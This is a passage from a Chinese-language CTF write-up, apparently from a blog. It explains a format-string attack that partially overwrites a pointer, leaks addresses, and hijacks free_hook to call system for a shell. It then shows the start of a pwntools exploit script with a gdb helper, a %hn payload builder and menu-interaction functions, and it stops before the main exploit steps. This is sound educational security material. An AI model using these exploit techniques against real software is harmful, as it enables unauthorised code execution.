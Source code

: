 ` 0x7fff358e7430`地址里的值离`secret`很近，所以我们可以`partial overwrite`使得` 0x7fff358e7430`指向`secret`，然后我们用`%hhn`把`secret`的第一个字节改为`\x00`,即可成功泄露地址，然后是把`free_hook`改为`system`即可`getshell`,就是我们不能用`%12$hn`这样的格式化字符串，所以`payload`的构造要麻烦一点

最后的exp为：

```python
from pwn import *

context.arch='amd64'

def debug(addr,PIE=True):
	if PIE:
		text_base = int(os.popen("pmap {}| awk '{{print $1}}'".format(p.pid)).readlines()[1], 16)
		gdb.attach(p,'b *{}'.format(hex(text_base+addr)))
	else:
		gdb.attach(p,"b *{}".format(hex(addr)))

def fmtstr2(addr, data, written):
	cnt = 0
	datalen = len(data)
	payload = ''
	address = ''
	for i in range(0,datalen/2):
		cur = u16(data[2*i:2*i+2])
		if cur >= written&0xffff:
			to_add = cur - (written&0xffff)
		else:
			to_add = 0x10000 + cur - (written&0xffff)
		round = ''
		if to_add != 0:
			round += "%{}c".format(to_add)
		round += "%hn"
		assert(len(round) <= 0x10)
		written += to_add + 0x10 - len(round)
		payload += round.ljust(0x10, '_')
		address += p64(addr+i*2)*2
		cnt += 1
	
	return payload + address

def cmd(c):
	p.recvuntil(">")
	p.sendline(str(c))

def input_secret(sz,content):
	cmd(2)
	p.recvuntil("Size: ")
	p.sendline(str(sz))
	p.recvuntil("Content: ")
	p.send(content)

def dele():
	cmd(3)
	
def edit(sz,content):
	cmd(6)
	p.recvuntil("size: ")
	p.sendline(str(sz))
	p.recvuntil("Content: ")
	p.send(content)

def guard_ready():
	cmd(4)
	
```